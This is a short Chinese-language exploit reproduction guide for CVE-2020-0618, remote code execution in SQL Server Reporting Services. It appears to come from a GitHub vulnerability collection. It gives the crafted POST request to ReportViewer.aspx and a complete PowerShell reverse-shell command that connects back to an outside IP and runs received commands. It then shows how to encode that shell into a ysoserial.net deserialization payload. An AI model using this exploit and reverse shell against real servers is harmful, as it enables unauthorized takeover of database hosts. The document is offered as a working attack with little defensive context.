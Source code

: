 # CVE-2020-0618 SQL Server 远程代码执行漏洞

### 一、漏洞简介

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting Services) 发送特制请求进行触发。攻击成功可获得SQL Server服务的对应控制权限。

### 二、漏洞影响

![-w671](images/15893422095702.jpg)


### 三、复现过程

首先登陆 ReportServer/pages/ReportViewer.aspx


```bash
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X

NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=
```

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：


```bash
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes)

.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip
```

编译好的ysoserial.net下载地址：https://github.com/ianxtianxt/ysoserial.net/

ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![](images/15893422527815.png)


参考链接

https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/